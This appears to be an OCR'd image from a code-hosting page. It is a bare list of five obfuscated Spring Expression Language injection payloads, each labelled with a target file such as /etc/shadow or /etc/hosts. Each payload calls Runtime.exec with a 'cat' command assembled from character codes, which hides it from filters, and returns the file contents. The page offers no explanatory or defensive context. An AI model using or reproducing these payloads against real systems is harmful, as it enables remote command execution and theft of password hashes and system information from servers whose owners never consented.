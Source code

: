 
/etc/hosts 

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(115))).getInputStream())} 

/etc/shadow

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(119))).getInputStream())} 


/etc/group

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(112))).getInputStream())} 

/etc/issue

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(101))).getInputStream())} 

/etc/motd 

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(100))).getInputStream())} 
